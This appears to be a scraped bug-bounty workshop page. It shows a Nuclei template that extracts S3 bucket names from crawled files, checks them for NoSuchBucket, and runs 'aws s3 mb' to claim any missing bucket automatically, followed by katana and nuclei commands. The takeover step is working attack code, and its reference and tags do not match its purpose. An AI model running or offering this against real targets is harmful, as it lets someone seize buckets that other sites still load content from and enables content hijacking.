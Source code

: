 ### AWS Bucket Takeover example

```yaml
id: aws-bucket-takeover-example

info:
  name: AWS Bucket Takeover example
  author: princechaddha
  severity: high
  description: Automatically Detects and takeover misconfigured Buckets
  reference:
    - https://docs.spring.io/spring-security/site/docs/current/apidocs/overview-tree.html
  tags: file,logs,spring

flow: file(1) && http(1) && code(1)

file:
  - extensions:
      - all

    extractors:
      - type: regex
        internal: true
        name: bucket
        group: 1
        regex:
          - 'https://([a-z0-9-]+)\.s3\.amazonaws\.com'
          - 'https://s3\.amazonaws\.com/([a-z0-9-]+?)(?:/|$)'


http:
  - method: GET
    path:
      - "https://s3.amazonaws.com/{{bucket}}"
    self-contained: true

    matchers:
      - type: word
        internal: true
        words:
          - '<Code>NoSuchBucket</Code>'
code:
  - engine:
      - sh
      - bash
    source: |
      aws s3 mb s3://$bucket

    matchers:
      - type: word
        words:
          - 'make_bucket:'

    extractors:
      - type: dsl
        dsl:
          - '"Created the AWS bucket " + bucket'
```

### Crawling using katana

`cat targets.txt | katana -srd “bugbounty-data/workshop”`

### Running template

`echo "bugbounty-data/redacted/" | nuclei -t aws-bucket-takeover-example.yaml -code -debug`

